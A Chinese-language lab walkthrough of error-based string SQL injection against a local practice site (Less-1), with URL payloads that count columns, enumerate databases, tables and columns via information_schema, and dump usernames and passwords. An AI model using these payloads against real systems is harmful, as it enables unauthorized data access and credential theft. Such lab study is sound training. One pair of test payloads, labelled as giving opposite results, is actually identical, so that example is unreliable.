

## 练习开始

首先打开http://127.0.0.1/Less-1/?id=1 


第一题是基于显错方式的字符串注入，位置在where之后且后跟limit


核心的语句在于
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```
这是最常见的一种方式注入点在where后面，还有的会在limit后面，这次只写where后面的

对于后面的 ```' LIMIT 0,1```主要有两种处理方式，一种是注释掉，还有一种是利用单引号闭合

测试用的payload
```
闭合法
' and 's' like 's 返回正确
' and 's' like 'f 返回错误

注释法
' and 1 like 1 --+ 返回正确
' and 1 like 1 --+ 返回错误

```

**在mysql中like和=等价**


## 0x01 注释法
### 0x001通过折中法获取列数

列数存在(即第一列)
```
http://127.0.0.1/Less-1/?id=1' order by 1 --+
```


列数不存在(第100列)
```
http://127.0.0.1/Less-1/?id=1' order by 100 --+
```


语句带入到mysql是如下图的形式


最后得到正确的列数是
```
http://127.0.0.1/Less-1/?id=1' order by 3 --+
```

### 0x002 获取数据库

```
http://127.0.0.1/Less-1/?id=1' union select 1,2,3 --+
```
通过报错显示内容

```
http://127.0.0.1/Less-1/?id=-1' union select 1,2,3 --+
```

这边将id的值改成了-1，是因为，mysql没有id为-1的内容，这样的话数据库就会报错，从而弹回我们想要的内容
可以看到只有第2列和第3列的结果显示在页面上，只有 2，3可以用

爆当前的数据库(利用mysql内置函数database())

```
http://127.0.0.1/Less-1/?id=-1' union select 1,database(),3 --+
```

语句在mysql的执行是


其他的内置函数还有user(),version()等
获取数据库数量
```
http://127.0.0.1/Less-1/?id=-1' union select 1,count(*),3  from information_schema.schemata --+
```


一次性全部爆出
```
http://127.0.0.1/Less-1/?id=-1' union select 1,2,(concat_ws(char(32,58,32),user(),database(),version())) --+
```


**
concat_ws（）：从数据库里取N个字段，然后组合到一起用符号分割显示，第一个参数剩余参数间的分隔符
char（）：将十进制ASCII码转化成字符
32表示 [空格]，58表示 [：]
**

获取第一个数据库名字
```
http://127.0.0.1/Less-1/?id=-1' union select 1,SCHEMA_NAME,3  from information_schema.schemata limit 0,1 --+
```


通过修改limit 0,1 limit 1,1 ...可以逐步遍历所有的数据库

### 0x003 通过联合查询获取security的表名


获取表的数量
```
http://127.0.0.1/Less-1/?id=-1' union select 1,count(*),3  from information_schema.tables where table_schema="security" --+
```


获取第一个表名
```
http://127.0.0.1/Less-1/?id=-1' union select 1,table_name,3  from information_schema.tables where table_schema="security"  limit 0,1--+
```


找到user表
```
http://127.0.0.1/Less-1/?id=-1' union select 1,table_name,3  from information_schema.tables where table_schema="security"  limit 3,1--+
```


### 0x004 获取列相关

猜列的数量
```
http://127.0.0.1/Less-1/?id=-1' union select 1,count(*),3  from information_schema.columns  where table_schema="security"  and table_name="users" --+
```


获取列名字
```
http://127.0.0.1/Less-1/?id=-1' union select 1,column_name,3  from information_schema.columns  where table_schema="security"  and table_name="users" limit 0,1 --+
```


获取username
```
http://127.0.0.1/Less-1/?id=-1' union select 1,column_name,3  from information_schema.columns  where table_schema="security"  and table_name="users" limit 1,1 --+
```
获取password
```
http://127.0.0.1/Less-1/?id=-1' union select 1,column_name,3  from information_schema.columns  where table_schema="security"  and table_name="users" limit 2,1 --+
```

### 获取列的内容
```
http://127.0.0.1/Less-1/?id=-1' union select 1,concat(username,":",password),3 from users --+
```


**
除了--+注释之外，还可以用%23,%23是#的url编码，在数据库中同样表示注视的含义。为什么使用的%23而不是#呢，因为由于编码的问题，在浏览器中直接提交#会变成空，所以我们使用url编码后的#，即%23，当传输到后端时，后端语言会对它自动解码成#，才能够成功带入数据库查询
**


## 0x01 闭合法

通过闭合法没办法构造order by语句，没法直接判断列数
```
http://127.0.0.1/Less-1/?id=1' union select 1,2,3 '
```
或者是
```
http://127.0.0.1/Less-1/?id=1' union select 1,2,3 and 'x'='x
```
他们在语句中的执行语句是


展示当前数据库
```
http://127.0.0.1/Less-1/?id=-1' union select 1,concat_ws(" : ", user(), database()),3   and 'x'='x
```


### 0x001 爆库

```
http://127.0.0.1/Less-1/?id=-1' union select 1,GROUP_CONCAT(SCHEMA_NAME),3   from information_schema.schemata where CATALOG_NAME='def
```


### 0x002 爆表

`
http://127.0.0.1/Less-1/?id=-1' union select 1,GROUP_CONCAT(table_NAME),3   from information_schema.tables where TABLE_SCHEMA='security
`


### 0x003 爆列

`
http://127.0.0.1/Less-1/?id=-1' union select 1,group_CONCAT(column_name),3   from information_schema.columns where TABLE_NAME='users' and TABLE_SCHEMA='security
`


### 0x004 爆内容

`
http://127.0.0.1/Less-1/?id=-1' union select 1,CONCAT_ws(" : ", username,password),3   from users where id = '1
`


